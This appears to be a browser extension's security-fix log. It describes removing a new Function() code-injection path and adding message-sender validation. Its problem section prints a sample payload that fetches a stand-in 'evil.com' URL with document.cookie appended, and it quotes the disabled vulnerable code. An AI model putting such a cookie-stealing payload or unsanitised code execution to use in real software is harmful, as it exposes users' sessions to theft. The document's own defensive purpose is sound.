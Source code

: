 
## Fix #2: Code Injection via new Function()

**Severity**: CRITICAL
**Status**: ✅ FIXED
**Commit**: `d114519` - "security: remove new Function() code injection vulnerability"

### Problem
Arbitrary code execution via javascript DOM change type:
```javascript
{
  "type": "javascript",
  "value": "fetch('https://evil.com/steal?data=' + document.cookie)"
}
```

### Solution
- Disabled javascript DOM change type completely
- Removed all `new Function()` usage
- Files modified:
  - `src/content/sdk-bridge.ts` (lines 93-96 commented out)
  - `public/inject-sdk-plugin.js` (lines 778-785 disabled)

### Code Changes
```typescript
// Disabled with comment
// JavaScript execution removed for security (prevents code injection)
// case 'javascript':
//   new Function('element', change.value)(element);
//   break;
```

### Tests
- 1 unit test verifies code execution is blocked
- 1 E2E test verifies no code execution in browser
- All tests passing ✅

---

## Fix #3: Message Passing Without Origin Validation

**Severity**: HIGH
**Status**: ✅ FIXED
**Commit**: `064fa82` - "security: add message sender validation to prevent unauthorized access"

### Problem
Malicious extensions could send commands to our extension without validation.

### Solution
- Added sender ID validation in `background.ts`
- Verify sender matches extension ID before processing messages
